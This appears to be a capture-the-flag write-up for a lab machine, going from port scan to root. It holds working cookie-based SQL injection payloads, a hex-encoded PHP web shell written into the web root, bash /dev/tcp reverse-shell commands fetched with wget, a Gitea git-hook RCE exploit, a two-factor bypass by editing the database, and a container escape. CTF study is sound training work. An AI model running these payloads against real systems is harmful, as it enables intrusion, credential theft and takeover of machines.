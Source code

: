 ## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

![]()

I used gobuster for any hidden directories but got nothing.<br>
Using burp , we see there is a cookie being stored. We could some injection with the cookie.

![]()

This confirms that SQLi is the way to go. UNION SELECT works.
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- -` gives databse `webapp`

![]()

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -` gives table `queue`

`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -` gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using ` INTO OUTFILE '/var/www/html/`
`Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -` gives:

![]

Using Command : `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -` we got 1 user:
`dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash`
 
 As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.
 `Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -`
 Now if it works:

 ![]()

 It works!
 Now to move in , save this : `bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1` to a file and transfer it to the webserver using `<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>`

 ![]()

 You should be in:

 ![]()

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

![]()
![]()

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

![]()

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.
Let's use SSH port forwarding and check out that port
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

![]()

Signing in as dylan we get a 2 factor authentication.

![]()

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

![]()

Let's delete the `two_factor table` from `gitea.db`:

![]()

And we're in. Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.<br>
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`. In this hook , we can write a shell script that will get executed after getting a new commit.<br>

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.<br>
Start a netcat listener, then on your local machine :
```
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

![]()

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.
Check the `/data/` directory as the files are usually mount to host.<br>

This is the case here as well as the files in /data are identical to the /gitea directory in Dylan's shell.<BR>
Now just transfer the bash file located in /bin/ to /data/ and add the permissions.

![]()

Back at Dylan's: run `./bash -p` and you got root.

![]()






 
 
 
 



